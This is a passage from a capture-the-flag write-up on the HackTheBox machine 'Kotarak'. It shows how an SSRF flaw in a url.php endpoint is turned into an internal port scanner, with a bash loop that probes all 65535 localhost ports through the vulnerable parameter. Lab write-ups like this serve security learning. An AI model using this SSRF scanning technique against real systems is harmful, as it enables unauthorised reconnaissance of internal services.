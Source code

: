 
We got some text as a response. We knew that SSH was enabled on the target, but this text was a confirmation. 


If we try to access a port that's likely to be closed with a request like `http://localhost:6`, we should receive an empty response, confirming that the port is indeed closed:

![empty-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/empty-15.png)


So if you think about it, we just found ourselfs an internal port scanner. All we have to do, is write a simple script to test for all 65535 ports, and see what internal services may be running on the internal localhost subnet of the target. 


I came up with something like this:

```bash
#!/bin/sh

for i in `seq 1 65535`; do
        response=$(curl -s "http://kotarak.htb:60000/url.php?path=http://localhost:$i")
        if [ ! -z "$response" ]; then
                echo "Port $i is open:"
                echo "$response"
                echo " "
        fi
done
```


This takes quite a long time to finish, but I wait patiently because we know that there is a web server on port 60000, so there very well could be services running on ports higher then that. 


Here are the results from the scan:

+ Port 90:

![port90-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/port90-16.png)
